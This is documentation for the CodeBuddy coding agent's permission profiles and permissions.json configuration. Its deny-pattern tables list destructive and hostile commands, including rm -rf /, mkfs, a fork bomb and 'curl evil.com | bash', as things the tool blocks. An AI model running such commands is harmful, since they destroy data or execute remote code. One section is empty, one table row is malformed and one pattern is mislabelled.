

CodeBuddy's permission system controls what the agent is allowed to do — which tools it can call, which terminal commands it can run, and which operations require human approval. Configure it via `.codebuddy/permissions.json` in your workspace root.

## Permission profiles

| Profile        | File access | Terminal    | Dangerous commands | Catastrophic commands |
| -------------- | ----------- | ----------- | ------------------ | --------------------- |
| **restricted** | Read-only   | Blocked     | Blocked            | Blocked               |
| **standard**   | Read/write  | Safe subset | Blocked            | Blocked               |
| **trusted**    | Full        | Full access | Allowed            | Blocked               |

The default profile is `standard`.

:::caution
Even in `trusted` mode, **catastrophic commands** are always blocked. There is no way to disable this protection.
:::

## Configuration file

Create `.codebuddy/permissions.json` at your workspace root:

```json
{
  "profile": "standard",
  "commandDenyPatterns": [
    "docker\\s+system\\s+prune",
    "kubectl\\s+delete\\s+namespace"
  ],
  "toolAllowlist": ["read_file", "search_files", "write_file"],
  "toolBlocklist": ["execute_command"]
}
```

| Field                 | Type       | Default      | Description                                                             |
| --------------------- | ---------- | ------------ | ----------------------------------------------------------------------- |
| `profile`             | `string`   | `"standard"` | One of `restricted`, `standard`, or `trusted`                           |
| `commandDenyPatterns` | `string[]` | `[]`         | Additional regex patterns to block (max 200 chars each; prevents ReDoS) |
| `toolAllowlist`       | `string[]` | `[]`         | Tools explicitly allowed regardless of profile restrictions             |
| `toolBlocklist`       | `string[]` | `[]`         | Tools explicitly blocked regardless of profile                          |

## How permission checks work



## Built-in dangerous command patterns

These are blocked in `restricted` and `standard` profiles:

| Category               | Pattern                          | Example                 |
| ---------------------- | -------------------------------- | ----------------------- | ------- |
| Recursive deletion     | `rm -rf`                         | `rm -rf /var/data`      |
| Destructive file ops   | `rm -f /`, `rmdir /`             | `rm -f /etc/hosts`      |
| Disk/partition         | `mkfs`, `dd of=/dev/`            | `mkfs.ext4 /dev/sda1`   |
| Fork bomb              | `:(){ \{`                        | `:(){ :                 | :& };:` |
| Piped remote execution | `curl \| bash`, `wget \| python` | `curl evil.com \| bash` |
| Privilege escalation   | `chmod 777`, `chown root`        | `chmod 777 /var/www`    |
| Data exfiltration      | `eval $`                         | `eval "$PAYLOAD"`       |

## Catastrophic commands (always blocked)

These are blocked in **all profiles**, including `trusted`:

| Pattern       | Why                                     |
| ------------- | --------------------------------------- |
| `rm -rf /`    | Recursive root deletion — unrecoverable |
| `mkfs`        | Formats disk partitions — unrecoverable |
| `dd of=/dev/` | Raw disk writes — unrecoverable         |
| `:(){ \{`     | Fork bomb — crashes the system          |

## Read-only tools (restricted profile)

When the profile is `restricted`, only these tools are available:

| Tool                         | Purpose                 |
| ---------------------------- | ----------------------- |
| `read_file`                  | Read file contents      |
| `search_files`               | Search by filename      |
| `list_files`                 | List directory contents |
| `search_vector_db`           | Semantic search         |
| `ripgrep_search`             | Text search             |
| `search_symbols`             | Symbol search           |
| `get_diagnostics`            | Lint/compile errors     |
| `get_architecture_knowledge` | Architecture context    |
| `think`                      | Structured reasoning    |
| `travily_search`             | Web search              |
| `open_web_preview`           | Browser preview         |
| `standup_intelligence`       | Meeting standup queries |
| `team_graph`                 | Team collaboration data |

## Live reload

Like access control, the permissions config is watched by a `FileSystemWatcher`:

- Changes are debounced to prevent rapid reloads
- Concurrent reloads are serialized
- The `onProfileChanged` event fires when the active profile changes
- Regex patterns are pre-compiled at load time (no per-call allocation)

## Diagnostics

| Code                | Severity | Meaning                                             |
| ------------------- | -------- | --------------------------------------------------- |
| `no-config`         | `info`   | No `permissions.json` found — using default profile |
| `config-loaded`     | `info`   | Config loaded successfully                          |
| `invalid-profile`   | `warn`   | Profile value not recognized                        |
| `invalid-regex`     | `warn`   | A deny pattern failed to compile                    |
| `blocklist-overlap` | `warn`   | A tool appears in both allowlist and blocklist      |

## Editor setting

Set a default profile without a config file:

```json
{
  "codebuddy.permissionScope.defaultProfile": "standard"
}
```

The workspace `.codebuddy/permissions.json` takes priority when present.

## Security considerations

- **ReDoS prevention** — user-supplied regex patterns are capped at 200 characters
- **File size limit** — config files larger than 64 KB are rejected
- **Path traversal guard** — config path is validated to stay within the workspace
- **Pre-compiled patterns** — catastrophic deny patterns are compiled once at module load, not per-check
- **Blocklist wins** — if a tool is in both `toolAllowlist` and `toolBlocklist`, it is blocked
